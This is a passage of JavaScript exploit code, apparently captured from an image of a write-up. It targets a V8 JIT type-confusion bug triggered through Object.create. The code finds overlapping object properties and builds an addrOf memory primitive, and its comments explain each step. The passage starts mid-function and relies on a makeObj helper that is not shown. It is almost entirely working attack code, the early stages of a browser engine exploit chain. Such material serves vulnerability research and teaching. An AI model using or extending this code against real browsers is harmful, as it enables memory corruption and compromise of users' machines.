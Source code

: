```js
    function vuln(obj) {
      // Access Property inline of obj, forcing a CheckMap operation
      obj.inline;
      // Force a Map Transition via our side-effect
      this.Object.create(obj);
      // Trigger our type-confusion by accessing out-of-bound properties
      ${pNames.map((p) => `let ${p} = obj.${p};`).join('\n')}
      return [${pNames.join(', ')}];
    }
  `)

    // Create an array of negative values from -1 to -32 to be used
    // for out makeObj function
    let pValues = [];
    for (let i = 1; i < 32; i++) {
        pValues[i] = -i;
    }

    // JIT code to trigger vuln
    for (let i = 0; i < 10000; i++) {
        // Create Object and pass it to Vuln function
        let res = vuln(makeObj(pValues));
        // Look for overlapping properties in results
        for (let i = 1; i < res.length; i++) {
            // If i is not the same value, and res[i] is between -32 and 0, it overlaps
            if (i !== -res[i] && res[i] < 0 && res[i] > -32) {
                [p1, p2] = [i, -res[i]];
                return;
            }
        }
    }
    throw "[!] Failed to find overlapping properties";
}

function addrOf() {
    eval(`
    function vuln(obj) {
      obj.inline;
      this.Object.create(obj);
      // Trigger our type-confusion by accessing an out-of-bound property
        // This will load p1 from our object thinking it's a Double, but instead
        // due to overlap, it will load p2 which is an Object
      return obj.p${p1}.x;
    }
  `);

    let obj = {z: 1234};
    let pValues = [];
    pValues[p1] = {x: 13.37};
    pValues[p2] = {y: obj};

    for (let i = 0; i < 10000; i++) {
        let res = vuln(makeObj(pValues));
        if (res != 13.37) {
            %DebugPrint(obj);
            return res;
        }
    }
    throw "[!] AddrOf Primitive Failed"
}

print("[+] Finding Overlapping Properties...");
findOverlappingProperties();
```